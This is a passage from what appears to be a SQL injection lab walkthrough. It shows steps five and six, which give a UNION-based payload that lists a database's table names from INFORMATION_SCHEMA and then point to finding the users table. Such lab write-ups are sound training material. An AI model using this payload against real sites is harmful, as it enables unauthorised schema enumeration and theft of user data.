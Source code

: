5. Now to retrieve the table names, We will use the payload `' UNION SELECT TABLE_NAME,NULL FROM INFORMATION_SCHEMA.TABLES`
![image](./Attachments/SQL-Lab9-7.png)

6. Let's now `Ctrl + f` for finding the table of users.
![image](./Attachments/SQL-Lab9-8.png)
